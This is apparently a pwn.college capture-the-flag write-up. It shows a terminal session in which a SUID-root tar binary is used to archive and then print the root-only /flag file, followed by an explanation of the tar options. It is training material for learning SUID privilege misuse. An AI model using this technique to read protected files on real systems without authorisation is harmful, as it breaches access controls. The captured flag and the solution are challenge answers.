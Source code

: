 ```bash
hacker@program-misuse-level-20:~$ cd /
hacker@program-misuse-level-20:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-20:/$ cd challenge/
hacker@program-misuse-level-20:/challenge$ ls
babysuid_level20
hacker@program-misuse-level-20:/challenge$ ./babysuid_level20 
Welcome to ./babysuid_level20!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/tar.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level20) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/tar!
hacker@program-misuse-level-20:/challenge$ cd ..
hacker@program-misuse-level-20:/$ tar flag 
tar: Old option 'f' requires an argument.
Try 'tar --help' or 'tar --usage' for more information.
hacker@program-misuse-level-20:/$ tar -cf flag.tar flag
hacker@program-misuse-level-20:/$ ls
bin  boot  challenge  dev  etc  flag  flag.tar  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-20:/$ tar -xf -O flag.tar 
tar: -O: Cannot open: No such file or directory
tar: Error is not recoverable: exiting now
hacker@program-misuse-level-20:/$ tar -xO flag.tar 
tar: Refusing to read archive contents from terminal (missing -f option?)
tar: Error is not recoverable: exiting now
hacker@program-misuse-level-20:/$ tar -xOf flag.tar 
pwn.college{c974IkAx0h8RNMsgMpnegS6zTOu.0lM2EDL0AjNzQzW}
hacker@program-misuse-level-20:/$ tar -x -O -f flag.tar 
pwn.college{c974IkAx0h8RNMsgMpnegS6zTOu.0lM2EDL0AjNzQzW}
```

Here, after compressing the `flag` file, we get the `flag.tar` file.

Then to print the contents of the flag.tar to the standard output, we write this command

`tar -x -O -f flag.tar`

Here `-x` means extracting, `-O` means print the output, and `-f` specifies the tar file. `-f` tells `tar` that the next argument provided is the name of the archive file.

You can use the three options together if you want.

`tar -xOf flag.tar`
